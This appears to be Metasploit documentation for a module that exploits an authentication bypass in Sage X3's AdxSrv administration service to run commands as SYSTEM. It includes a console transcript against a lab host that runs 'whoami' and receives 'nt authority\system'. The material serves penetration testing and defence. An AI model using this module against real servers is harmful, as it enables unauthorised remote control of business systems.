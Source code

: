 ## Vulnerable Application

### Description

This module leverages an authentication bypass exploit within Sage X3 `AdxSrv`'s administration
protocol to execute arbitrary commands as `SYSTEM` against a Sage X3 Server running an
available `AdxAdmin` service.

### Setup

Not available.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### Sage X3 on Windows Server 2016

```
msf > use exploit/windows/sage/x3_adxsrv_auth_bypass_cmd_exec
[*] Using configured payload cmd/windows/generic
msf exploit(windows/sage/x3_adxsrv_auth_bypass_cmd_exec) > options

Module options (exploit/windows/sage/x3_adxsrv_auth_bypass_cmd_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   1818             yes       The target port (TCP)


Payload options (cmd/windows/generic):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   CMD   whoami           yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf exploit(windows/sage/x3_adxsrv_auth_bypass_cmd_exec) > set rhosts 172.16.57.6
rhosts => 172.16.57.6
msf exploit(windows/sage/x3_adxsrv_auth_bypass_cmd_exec) > set rport 50000
rport => 50000
msf exploit(windows/sage/x3_adxsrv_auth_bypass_cmd_exec) > run

[*] 172.16.57.6:50000 - Connected
[+] 172.16.57.6:50000 - ADXDIR authentication successful.
[+] 172.16.57.6:50000 - Received directory info from host: D:\Sage\SafeX3\AdxAdmin
[+] 172.16.57.6:50000 - Command authentication successful.
[*] 172.16.57.6:50000 - Writing data
[+] 172.16.57.6:50000 - ------------ Response Received ------------
[*] 172.16.57.6:50000 - nt authority\system
[!] 172.16.57.6:50000 - This exploit may require manual cleanup of 'D:\Sage\SafeX3\AdxAdmin\tmp' on the target
[*] Exploit completed, but no session was created.
msf exploit(windows/sage/x3_adxsrv_auth_bypass_cmd_exec) >
```
